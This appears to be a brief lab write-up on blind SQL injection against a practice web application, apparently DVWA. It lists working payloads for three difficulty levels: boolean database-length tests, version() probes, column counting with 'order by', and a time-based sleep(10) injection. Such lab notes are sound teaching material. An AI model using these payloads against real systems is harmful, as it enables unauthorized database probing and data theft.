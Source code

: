 Blind SQL injections rely on finding
implicit true/false outputs based on input
to find vulnerabilities.

Low:

* Solution 1: 1' and length(database())=4#
* Solution 2: 1' and version();#
* 1' order by 3# query results in "User ID is MISSING from the databse".
This is a indirect way of saying there are only 2 columns
* Anything other than 1' and length(database())=4# will result in 
the missing error because there are exactly 4 IDs.

Medium:
* Solution 1: 1 and length(database())=4#
* Solution 2: 1 and version();#

High:
* Solution: 1' and sleep(10)#
* Recieved "User ID is MISSING from the database" after 10 seconds, meaning it worked.
